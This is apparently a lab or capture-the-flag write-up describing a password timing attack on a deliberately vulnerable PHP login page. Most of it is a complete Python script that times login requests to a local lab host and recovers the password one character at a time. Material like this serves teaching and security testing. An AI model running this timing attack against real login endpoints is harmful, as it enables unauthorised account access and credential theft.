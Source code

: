 # Passsword Timing Attack

The bottom of the page says how long it takes to load the page. This can be used in a timing attack to get the password.
There is also a link at the bottom of the page the lets you see the source code. 
In the source code, we can see that it will validate the password character by character. If it finds a valid character, it sleeps for 0.15 seconds.
This allows us to write a script that can loop over every character and the one that takes the longest is likely to be the right one.

Here is an example solution in python:

	import httplib, urllib, string

	def get_time(response_data):
		"""Parses the time from the response"""
		start_index = response_data.find("Page generated in ") + 18
		end_index = response_data.find(" ms.")
		value = response_data[start_index: end_index]
		return int(value)

	def time_login(password):
		"""Returns the time it takes to perform the login"""
		host = "192.168.33.10"
		url = "/password/brute-force/index.php"
		
		params = urllib.urlencode({"your_password": password})
		headers = {"Content-type": "application/x-www-form-urlencoded", "Accept": "text/html"}
		con = httplib.HTTPConnection(host)
		con.request("POST", url, params, headers)
		response = con.getresponse()
		response_data = response.read()
		con.close()
		return get_time(response_data)

	def get_length():
		"""Cracks the password length based on which one takes the longest"""
		longest_time = 0
		found_length = None
		
		for length in range(5, 10):
			# It only takes longer if it finds a correct character.
			# So this will loop through every character as the first character for every length we are testing.
			for letter in string.ascii_lowercase:
				password = letter + "x" * (length-1)
				timespan = time_login(password)
				print password, timespan
				# This could be optimized by returning when one is signiticantly larger instead of exhausting all possible solultions.
				if (timespan > longest_time):
					longest_time = timespan
					found_length = length

		print found_length
		return found_length

	def get_password():
		length = get_length()
		found_password = ""
		
		for index in range(0, length):
			longest_time = 0
			max_letter = None
			
			for letter in string.ascii_lowercase:
				password_attempt = found_password + letter + "x" * (length-index-1)
				timespan = time_login(password_attempt)
				print password_attempt, timespan
				# This could be optimized by returning when one is signiticantly larger instead of exhausting all possible solutions.
				if (timespan > longest_time):
					longest_time = timespan
					max_letter = letter
			
			found_password += max_letter
			print found_password
		return found_password

	print get_password()